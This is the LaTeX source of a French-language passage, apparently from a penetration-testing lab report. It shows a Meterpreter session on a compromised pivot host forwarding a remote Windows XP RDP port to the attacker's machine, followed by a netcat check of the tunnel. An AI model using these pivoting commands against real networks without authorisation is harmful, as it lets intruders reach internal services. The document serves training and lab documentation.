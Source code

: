 \documentclass[12pt,a4paper,openany]{report}
\begin{document}
\subsection{Principe du Port Forwarding}

Le port forwarding via Meterpreter permet d'exposer un service réseau interne (accessible uniquement depuis le pivot) sur la machine attaquante locale. Cela transforme le système compromis en \textit{reverse proxy}.

\textbf{Architecture :}
\begin{verbatim}
	Attacker:3389  <--->  Meterpreter  <--->  192.168.20.50:3389 (RDP)
	(Local)                (Pivot)            (Remote)
\end{verbatim}

\subsection{Configuration du Tunnel RDP}

\begin{lstlisting}[caption=Création du Port Forward]
	[msf](Jobs:0 Agents:1) >> sessions -i 2
	[*] Starting interaction with 2...
	
	(Meterpreter 2)(/tmp) > portfwd add -l 3389 -p 3389 -r 192.168.20.50
	[*] Forward TCP relay created: (local) :3389 -> (remote) 192.168.20.50:3389
	
	(Meterpreter 2)(/tmp) > portfwd list
	
	Active Port Forwards
	====================
	
	Index  Local         Remote              Direction
	-----  -----         ------              ---------
	1      0.0.0.0:3389  192.168.20.50:3389  Forward
	
	1 total active port forwards.
\end{lstlisting}

\subsection{Validation du Tunnel}

\begin{lstlisting}[caption=Test de Connectivité via Netcat]
	$ nc -zv localhost 3389
	nc: connect to localhost (::1) port 3389 (tcp) failed: Connection refused
	Connection to localhost (127.0.0.1) 3389 port [tcp/ms-wbt-server] succeeded!
\end{lstlisting}

✅ \textbf{Succès !} Le service RDP de Windows XP (192.168.20.50:3389) est maintenant accessible localement sur l'attaquant via \texttt{localhost:3389}.
\end{document}

